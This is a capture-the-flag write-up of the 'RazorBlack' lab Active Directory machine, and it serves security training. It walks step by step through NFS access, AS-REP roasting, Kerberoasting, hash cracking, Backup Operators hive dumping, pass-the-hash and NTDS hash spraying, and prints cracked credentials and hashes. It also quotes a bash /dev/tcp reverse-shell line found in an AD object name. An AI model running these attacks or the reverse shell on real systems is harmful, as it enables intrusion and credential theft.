










# RazorBlack Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | RazorBlack |
| **OS** | Windows Server 2019 Build 17763 |
| **Difficulty** | Hard |
| **Domain** | raz0rblack.thm |
| **Domain Controller** | HAVEN-DC.raz0rblack.thm |

> [!Note]
> RazorBlack is an Active Directory machine on TryHackMe featuring misconfigured NFS shares, username permutation and AS-REP Roasting, GPO privilege inspection, Kerberoasting, Backup Operators privilege abuse, DPAPI credential protection nuances and NTDS.dit hash spraying. Every trial, rabbit hole, and failed attempt is fully documented below.

---

## Enumeration

### Nmap

The assessment begins with an initial Nmap TCP port scan to map out running network services.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-31 16:41:09Z)
111/tcp   open  rpcbind?
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  mountd        1-3 (RPC #100005)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The scan discloses a standard Active Directory Domain Controller landscape along with an unexpected service.
- **Domain:** `raz0rblack.thm`
- **Hostname:** `HAVEN-DC`
- **Kerberos (88), LDAP (389, 3268), SMB (445), WinRM (5985), RDP (3389)** are accessible.
- **Port 111 and 2049 (NFS / mountd):** Network File System running directly on a Windows Domain Controller is relatively unusual and immediately warrants deeper inspection.

### Initial SMB and LDAP Probing

Testing SMB for anonymous access with NetExec (`nxc`) indicates that null authentication is technically enabled, but share enumeration is denied.

```bash
nxc smb $target -u '' -p ''
nxc smb $target -u 'guest' -p ''
nxc smb $target -u '' -p '' --shares
```

```
SMB  10.49.158.130  445  HAVEN-DC  [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB  10.49.158.130  445  HAVEN-DC  [+] raz0rblack.thm\: 
SMB  10.49.158.130  445  HAVEN-DC  [-] raz0rblack.thm\guest: STATUS_ACCOUNT_DISABLED 
SMB  10.49.158.130  445  HAVEN-DC  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

An anonymous LDAP search confirms the directory base naming contexts without requiring credentials.

```bash
ldapsearch -x -H ldap://$target -b "" -s base namingContexts
```

```
dn:
namingContexts: DC=raz0rblack,DC=thm
namingContexts: CN=Configuration,DC=raz0rblack,DC=thm
namingContexts: CN=Schema,CN=Configuration,DC=raz0rblack,DC=thm
namingContexts: DC=DomainDnsZones,DC=raz0rblack,DC=thm
namingContexts: DC=ForestDnsZones,DC=raz0rblack,DC=thm
```

However, unauthenticated LDAP queries and unauthenticated AS-REP requests via `impacket-GetNPUsers` return LDAP bind errors.

### NFS Enumeration

Running Nmap NFS NSE scripts against port 2049 reveals an exported volume.

```bash
nmap --script nfs-ls,nfs-showmount,nfs-statfs $target
```

```
PORT     STATE SERVICE
111/tcp  open  rpcbind
| nfs-showmount: 
|_  /users 
| nfs-statfs: 
|   Filesystem  1K-blocks   Used        Available  Use%  Maxfilesize  Maxlink
|_  /users      20407292.0  16007996.0  4399296.0  79%   16.0T        1023
| nfs-ls: Volume /users
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID         GID         SIZE  TIME                 FILENAME
| rwx------   4294967294  4294967294  64    2021-02-27T17:24:37  .
| ??????????  ?           ?           ?     ?                    ..
| rwx------   4294967294  4294967294  9861  2021-02-25T16:24:06  employee_status.xlsx
| rwx------   4294967294  4294967294  80    2021-02-25T19:31:46  sbradley.txt
```

The share `/users` is exported to everyone. Mounting the NFS share locally provides direct access to two files.

```bash
showmount -e $target
mkdir users
mount $target:/users users
```

Inspecting `sbradley.txt` reveals it is a UTF-16 little-endian text file. Converting it to UTF-8 displays the first flag.

```bash
file sbradley.txt
iconv -f UTF-16LE -t UTF-8 sbradley.txt
```

```
THM{ab53e05c9a98def00314a14ccbfa8104}
```

The second file, `employee_status.xlsx`, is converted into plain text using `ssconvert` to read the employee roster.

```bash
ssconvert employee_status.xlsx employee_status.txt
cat employee_status.txt
```

```
"HAVEN SECRET HACKER's CLUB",,,
,,,
,,,
,,,
Name's,,,Role
"daven port",,,"CTF PLAYER"
"imogen royce",,,"CTF PLAYER"
"tamara vidal",,,"CTF PLAYER"
"arthur edwards",,,"CTF PLAYER"
"carl ingram",,,"CTF PLAYER (INACTIVE)"
"nolan cassidy",,,"CTF PLAYER"
"reza zaydan",,,"CTF PLAYER"
"ljudmila vetrova",,,"CTF PLAYER, DEVELOPER,ACTIVE DIRECTORY ADMIN"
"rico delgado",,,"WEB SPECIALIST"
"tyson williams",,,"REVERSE ENGINEERING"
"steven bradley",,,"STEGO SPECIALIST"
"chamber lin",,,"CTF PLAYER(INACTIVE)"
```

---

## Initial Foothold

### Username Formatting and Rabbit Hole

Active Directory usernames rarely contain spaces. The first logical assumption was standard `firstname.lastname` formatting.

Extracting and formatting names with a dot delimiter.

```bash
cat employee_status.txt | awk -F',' '{print $1}' | tr -d '"' | grep -viE '(name|haven secret)' > user.txt
sed -i 's/ /\./g' user.txt
grep . user.txt > user.txt
cat user.txt
```

```
daven.port
imogen.royce
tamara.vidal
arthur.edwards
carl.ingram
nolan.cassidy
reza.zaydan
ljudmila.vetrova
rico.delgado
tyson.williams
steven.bradley
chamber.lin
```

Testing these usernames against SMB with blank passwords and password as username spray yielded only `STATUS_LOGON_FAILURE`.

```bash
nxc smb $target -u user.txt -p '' --continue-on-success
nxc smb $target -u user.txt -p user.txt --continue-on-success
```

That format was incorrect. The naming scheme was revised to first initial plus last name (`<initial><lastname>`).

```
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
```

### AS-REP Roasting

With the corrected username wordlist in place, an AS-REP Roasting query was fired using Impacket.

```bash
impacket-GetNPUsers raz0rblack.thm/ -usersfile user.txt -request -dc-ip $target -outputfile hash.txt 2>/dev/null
cat hash.txt
```

A roastable AS-REP token was promptly captured for user `twilliams`.

```
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:7abbe16cc8f8ba4c7eb45ca437767068$b38ff5df2025c89cf9b02fce8b7d48cf884fc1b9e9186ec4326ce81e635d3e001ef4c028d1b2688f9c4aba6f8ae9a618ff10134fdea6709aab917b96af013b50809a111067423f896f424d67eca7169926dd45e116568dcc35f1ae03f4f8469fb750f155fd8d4a069634b7e56bd1487b8ffef7cf7022eefe27455de3eaa2270d7a33d13c1a6873793b3caa7c4a33a8966bfde46e40852abf500d83921179781f47406937ac268eb74b2518fa221fc97b1ec05d768e133dad9b649db31eca396e261c79fc4656d50fdca65867afec6eef277a606d5c2e785cb67e5348dfb2c265e879fc32f687699fb62f2f79048ff0d5
```

Feeding the hash into Hashcat against `rockyou.txt` cracked the password in seconds.

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:...:roastpotatoes

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

Valid domain credentials established.
- **Username:** `twilliams`
- **Password:** `roastpotatoes`

---

## Privilege Escalation Path 1: Tyson Williams to Xyan1d3

### Domain Privilege Enumeration

Authentication with `twilliams` succeeded over SMB.

```bash
nxc smb $target -u twilliams -p 'roastpotatoes' -M gpp_privileges
```

The `gpp_privileges` module parsed the Default Domain Policy `GptTmpl.inf` security template.



Notable privileges configured in Group Policy include.
- `SeBackupPrivilege` Assigned to `Server Operators`, `Backup Operators`, `Administrators`
- `SeRestorePrivilege` Assigned to `Server Operators`, `Backup Operators`, `Administrators`
- `SeBatchLogonRight` Assigned to `BUILTIN\Performance Log Users`, `Backup Operators`, `Administrators`
- `SeMachineAccountPrivilege` Granted to `Authenticated Users`

Checking LDAP group memberships for these sensitive groups revealed an oddity in `Backup Operators`.

```bash
ldapsearch -x -H ldap://10.49.136.163 -D "twilliams@raz0rblack.thm" -w "roastpotatoes" -b "DC=raz0rblack,DC=thm" "(objectClass=group)" cn member | grep -iE "Backup Operators|Server Operators" -A 2 -B 1
```



A member object named `CN=bash -i \>&. /dev/tcp/10.8.156.189/8888 0\>&1,CN=Users,DC=raz0rblack,DC=thm` was linked to `Backup Operators`, pointing to an artifact left from an earlier test or injection. (anomaly) 

Running `bloodyad` to inspect writable AD containers and objects highlighted write access on Foreign Security Principals.

```bash
bloodyad --host 10.49.136.163 -d raz0rblack.thm -u twilliams -p 'roastpotatoes' get writable
```



### BloodHound & Kerberoasting

Collecting BloodHound data using `bloodyad` and inspecting the domain graph revealed a crucial pivoting target.



The account `XYAN1D3@RAZ0RBLACK.THM` has two significant attributes.
1. It is a direct member of `BUILTIN\Backup Operators` and `BUILTIN\Remote Management Users`.
2. It has an active Service Principal Name (SPN) set to `HAVEN-DC/xyan1d3.raz0rblack.thm:60111`.

With valid user credentials (`twilliams`), a TGS ticket can be requested for `xyan1d3`.

```bash
impacket-GetUserSPNs raz0rblack.thm/twilliams:'roastpotatoes' -request -dc-ip $target
```

```
ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
-------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 22:17:17.715160  <never>               

$krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/xyan1d3*$f34d6b2f9333...
```

Cracking the TGS hash with Hashcat mode 13100 yielded the password for `xyan1d3`.

```bash
hashcat -m 13100 hash_spn.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$...:cyanide9amine5628
```

Credentials for the new user.
- **Username:** `xyan1d3`
- **Password:** `cyanide9amine5628`

Verifying with `nxc` confirmed WinRM access.

```bash
nxc winrm $target -u xyan1d3 -p 'cyanide9amine5628'
```

```
WINRM  10.49.159.78  5985  HAVEN-DC  [+] raz0rblack.thm\xyan1d3:cyanide9amine5628 (Pwn3d!)
```

---

## Privilege Escalation Path 2: Backup Operators to Domain Administrator

### Exploring User Environment & DPAPI XML Flag

Spawning a WinRM session with Evil-WinRM.

```bash
evil-winrm -i $target -u xyan1d3 -p 'cyanide9amine5628'
```

Checking the user directory `C:\Users\xyan1d3` disclosed a file called `xyan1d3.xml`.

```powershell
dir
type xyan1d3.xml
```

The file contains an exported PowerShell `PSCredential` object. Because the current Evil-WinRM session runs directly inside `xyan1d3`'s user context, PowerShell can import and decrypt the credential via DPAPI.

```powershell
$cred = Import-Clixml -Path C:\Users\xyan1d3\xyan1d3.xml
$cred.GetNetworkCredential().Password
```



```
LOL here it is -> THM{62ca7e0b901aa8f0b233cade0839b5bb}
```

Flag 2 recovered.

### Abusing Backup Operators (SeBackupPrivilege)

Checking token privileges with `whoami /all`.



`xyan1d3` is in `BUILTIN\Backup Operators` with `SeBackupPrivilege` and `SeRestorePrivilege` enabled.

Two initial methods to back up Active Directory were tested and encountered hurdles.
1. `wbadmin start systemstatebackup -backuptarget:C: -quiet` failed because Windows Backup prohibits storing a backup on a volume included within the backup itself.
2. `diskshadow /s shadow.txt` failed with `COM call "(*vssObject)->SetContext" failed` due to WinRM execution constraints.

However, since `SeBackupPrivilege` bypasses standard file system read access controls, the registry hives can be directly saved using `reg save`.

```cmd
reg save HKLM\SAM C:\Users\xyan1d3\AppData\Local\Temp\sam.hiv
reg save HKLM\SYSTEM C:\Users\xyan1d3\AppData\Local\Temp\system.hiv
```

Both hives were written successfully. After downloading the hives to the attacking host, `impacket-secretsdump` extracted the local SAM hashes.

```bash
impacket-secretsdump LOCAL -sam sam.hiv -system system.hiv
```

```
[*] Target system bootKey: 0xf1582a79dd00631b701d3d15e75e59f6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9689931bed40ca5a2ce1218210177f0c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Local Administrator NTLM hash.
`Administrator: 9689931bed40ca5a2ce1218210177f0c`

Pass-The-Hash validation via SMB and WinRM confirmed complete control over the Domain Controller.

```bash
nxc smb $target -u Administrator -H 9689931bed40ca5a2ce1218210177f0c
nxc winrm $target -u Administrator -H 9689931bed40ca5a2ce1218210177f0c
```

```
SMB    10.49.159.78  445   HAVEN-DC  [+] raz0rblack.thm\Administrator:9689931bed40ca5a2ce1218210177f0c (Pwn3d!)
WINRM  10.49.159.78  5985  HAVEN-DC  [+] raz0rblack.thm\Administrator:9689931bed40ca5a2ce1218210177f0c (Pwn3d!)
```

---

## Post-Exploitation & Additional Flags

Having administrative control allows gathering the remaining user flags scattered across the filesystem.

### Tyson Williams Flag

Navigating to `C:\Users\twilliams` revealed an executable named with an unmistakable title.

```powershell
cd C:\Users\twilliams
dir
type definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe
```

```
THM{5144f2c4107b7cab04916724e3749fb0}
```

### Ljudmila Vetrova Flag: DPAPI Gotcha & NTDS Hash Spraying

In `C:\Users\lvetrova`, there is another XML credential file: `lvetrova.xml`.

Attempting to decrypt it as Administrator failed.

```powershell
$cred = Import-Clixml -Path C:\Users\lvetrova\lvetrova.xml
```

```
Key not valid for use in specified state.
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], CryptographicException
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicException,Microsoft.PowerShell.Commands.ImportClixmlCommand
```

Even as Domain Administrator, PowerShell cannot decrypt another user's DPAPI-encrypted `Clixml` file directly without that specific user's DPAPI Master Key context. Access as `lvetrova` herself is required.

Enumerating SMB shares with Administrator credentials revealed a previously hidden share called `trash`.

```bash
nxc smb $target -u Administrator -H 9689931bed40ca5a2ce1218210177f0c --shares
```



Querying the physical directory path mapped to `trash`.

```bash
nxc smb $target -u Administrator -H 9689931bed40ca5a2ce1218210177f0c -X "Get-SmbShare -Name trash | Select-Object Path"
```

The share points to `C:\windows\trash`. Listing its files.

```powershell
cd C:\windows\trash
dir
```

```
-a----  2/25/2021  11:29 AM      1340 chat_log_20210222143423.txt
-a----  3/15/2021  11:02 PM  18927164 experiment_gone_wrong.zip
-a----  2/27/2021  11:24 AM        37 sbradley.txt
```

Reading `chat_log_20210222143423.txt` tells a comical story about a rogue test.



The log explains that `sbradley` exploited CVE-2020-1472 (ZeroLogon) on this Domain Controller, extracted `ntds.dit` and `SYSTEM.hive`, packed them into an encrypted zip file, and stored it inside the `trash` share before the Administrator suffered an outage.

Downloading and cracking `experiment_gone_wrong.zip`.

```bash
zip2john experiment_gone_wrong.zip > zip_hash.txt
john zip_hash.txt --show
```

```
experiment_gone_wrong.zip:electromagnetismo::experiment_gone_wrong.zip:system.hive, ntds.dit:experiment_gone_wrong.zip
```

The zip archive password is `electromagnetismo`.

Extracting the contents yielded the raw `ntds.dit` database and `system.hive`. Running `secretsdump` dumped 372 domain hashes.

Checking `dump_ntds.txt` for `lvetrova` returned no direct entries under that exact string. However, extracting all 372 unique NT hashes and spraying them against `lvetrova` via SMB quickly found a match.

```bash
cat dump_ntds.txt | awk -F ':' '{print $4}' > dump_hash.txt
nxc smb $target -u lvetrova -H dump_hash.txt | grep -i '[+]'
```

```
SMB  10.48.153.236  445  HAVEN-DC  [+] raz0rblack.thm\lvetrova:f220d3988deb3f516c73f40ee16c431d
```

Valid NT hash for `lvetrova`: `f220d3988deb3f516c73f40ee16c431d`.

Logging into WinRM under `lvetrova`'s context to decrypt `lvetrova.xml`.

```bash
evil-winrm -i $target -u lvetrova -H 'f220d3988deb3f516c73f40ee16c431d'
```

```powershell
$cred = Import-Clixml -Path C:\Users\lvetrova\lvetrova.xml
$cred.GetNetworkCredential().Password
```

```
THM{694362e877adef0d85a92e6d17551fe4}
```

Flag 4 secured.

---

## Top Secret & Root

With full administrative access, navigating through `C:\Program Files` revealed a non-standard folder called `Top Secret`.

```powershell
cd "C:\Program Files\Top Secret"
dir
```

```
Mode    LastWriteTime         Length Name
----    -------------         ------ ----
-a----  2/25/2021  10:13 AM   449195 top_secret.png
```

Downloading and inspecting `top_secret.png` displays a familiar meme.



The image features the melting chocolate gorilla meme with the highlighted punchline: `:wq`.

now for the root flag

```bash
*Evil-WinRM* PS C:\Users\Administrator> type root.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"> 
<Obj RefId="0"> 
<TN RefId="0"> 
<T>System.Management.Automation.PSCredential</T> 
<T>System.Object</T> </TN> 
<ToString>System.Management.Automation.PSCredential</ToString> 
<Props> 
<S N="UserName">Administrator</S> <SS N="Password">44616d6e20796f752061726520612067656e6975732e0a4275742c20492061706f6c6f67697a6520666f72206368656174696e6720796f75206c696b6520746869732e0a0a4865726520697320796f757220526f6f7420466c61670a54484d7b31623466343663633466626134363334383237336431386463393164613230647d0a0a546167206d65206f6e2068747470733a2f2f747769747465722e636f6d2f5879616e3164332061626f75742077686174207061727420796f7520656e6a6f796564206f6e207468697320626f7820616e642077686174207061727420796f75207374727567676c656420776974682e0a0a496620796f7520656e6a6f796564207468697320626f7820796f75206d617920616c736f2074616b652061206c6f6f6b20617420746865206c696e75786167656e637920726f6f6d20696e207472796861636b6d652e0a576869636820636f6e7461696e7320736f6d65206c696e75782066756e64616d656e74616c7320616e642070726976696c65676520657363616c6174696f6e2068747470733a2f2f7472796861636b6d652e636f6d2f726f6f6d2f6c696e75786167656e63792e0a</SS>
```

Pasting the extracted hex string into CyberChef with the **From Hex** recipe.



The decoded message delivers the final Root flag and author greetings.

```
Damn you are a genius.
But, I apologize for cheating you like this.

Here is your Root Flag
THM{1b4f46cc4fba46348273d18dc91da20d}

Tag me on https://twitter.com/Xyan1d3 about what part you enjoyed on this box and what part you struggled with.

If you enjoyed this box you may also take a look at the linuxagency room in tryhackme.
Which contains some linux fundamentals and privilege escalation https://tryhackme.com/room/linuxagency.
```

---

## Lessons Learned

- **NFS on Domain Controllers**: Exposing NFS shares (`/users`) anonymously to `everyone` directly on a Domain Controller allowed an unauthenticated attacker to obtain company rosters and sensitive files. NFS should either not be run on DCs or require strict IP whitelisting and Kerberos authentication (`sec=krb5p`).
- **Account Pre-Authentication**: The `DONT_REQ_PREAUTH` setting on `twilliams` enabled offline AS-REP Roasting against weak passwords in `rockyou.txt`. Active Directory accounts should always enforce Kerberos pre-authentication.
